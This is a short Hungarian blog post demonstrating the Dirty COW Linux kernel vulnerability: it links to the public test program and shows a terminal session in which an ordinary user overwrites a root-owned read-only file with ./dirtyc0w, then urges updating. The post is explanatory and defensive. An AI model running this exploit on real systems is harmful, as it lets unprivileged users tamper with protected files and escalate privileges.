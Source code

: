 ```yaml
---
layout: post
title: 'dirty cow'
permalink: https://commandline.blog.hu/2016/10/27/dirty_cow
post_id: 11839729
categories: 
- linux
- kernel
- dirty_cow
---
```


A 
[dirty cow](https://dirtycow.ninja/) sebeshetőséget tesztelhetjük egy speciális 
[programmal](https://github.com/dirtycow/dirtycow.github.io).

A /tmp/teszt fájl rooté és senkinek sincsen rá írási joga, néhány 'a' betű van benne:

```
$ ls -l /tmp/teszt
 -r-----r-- 1 root root 5 Oct 26 08:55 /tmp/teszt
 $ cat /tmp/teszt
 aaaa
```

Nem túl meglepő módon sima felhasználóként nem tudunk a fájlba írni

```
$ echo 'bbbb' >> /tmp/teszt
 bash: /tmp/teszt: Permission denied
```

A dirty cow tesztprogram használatával viszont meglepő módon bele tudunk írni a fájlba:

```
$ ./dirtyc0w /tmp/teszt cccc
 mmap 7f7b1ab10000
 madvise 0
 procselfmem 50000000
 $ cat /tmp/teszt
 cccc
```

A sebeshetőség 2007 óta van benne a Linux kernelben, így mindenkinek erősen javasolt a frissítés.